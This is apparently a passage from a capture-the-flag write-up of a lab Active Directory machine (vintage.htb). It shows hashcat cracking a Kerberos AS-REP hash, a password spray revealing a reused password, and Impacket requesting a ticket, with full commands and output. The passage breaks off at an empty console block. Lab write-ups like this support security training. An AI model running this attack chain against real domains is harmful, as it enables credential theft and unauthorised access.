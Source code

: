 ```console
==================================================================================================================================================
* Device #1: pthread-haswell-AMD Ryzen 7 5800H with Radeon Graphics, 2541/5146 MB (1024 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 3 digests; 3 unique digests, 3 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 4 MB

Dictionary cache hit:
* Filename..: /opt/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5asrep$23$SVC_SQL@VINTAGE.HTB:d308a2a3a14a0bd29f49446e97e20023$c9c5ea68460fdbee6607aafac90c7706ddd3baba8091ef7d996489b003f846b161f17412be58d1827a047ddfa296b1360359c42876b23fc96ac628231ffd33768e41875d49acfec5259d32571a9db5aa33a02ba0ed3c12d540bcd0062b2436e1163f204dbe850667fa47bd653d86c540479f7161bc0aeb8b288eb56e762fac70376cb180348102d3d080ffb5263923aa9b964006a1bc829f44eba961c97f8a8719d6404d29e648ef8363375695c77689e6d3cc21a33ec1f958b9f22be5f9380b573e8cdf69dc67cad23537760609000c24d456cbefc2953a47a0bc964df8ad4c42b6db208a96bac78266:Zer0the0ne
```
we have `svc_sql`:`Zer0the0ne`!
Checking if any account reused their password through a password spray:
```console
# smartbrute brute -bU users.txt -bp "Zer0the0ne" kerberos -d "vintage.htb" --kdc-ip "vintage.htb"

[*] Starting bruteforce attack on passwords
┌─────────────┬─────────┬────────────┬──────────────────┐
│ domain      │ user    │ password   │ details          │
├─────────────┼─────────┼────────────┼──────────────────┤
│ vintage.htb │ SVC_SQL │ n/a        │ disabled         │
│ vintage.htb │ C.NERI  │ Zer0the0ne │ (probably valid) │
│ vintage.htb │ KRBTGT  │ n/a        │ disabled         │
│ vintage.htb │ GUEST   │ n/a        │ disabled         │
└─────────────┴─────────┴────────────┴──────────────────┘
```
Seeing this we have `C.NERI!`
As usual grab the `TGT`:
```console
# getTGT.py -dc-ip "dc01.vintage.htb" "vintage.htb"/"C.NERI":"Zer0the0ne"
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in C.NERI.ccache
```
and ensure the `ccache` file is the new `KRB5CCNAME`:
```console
```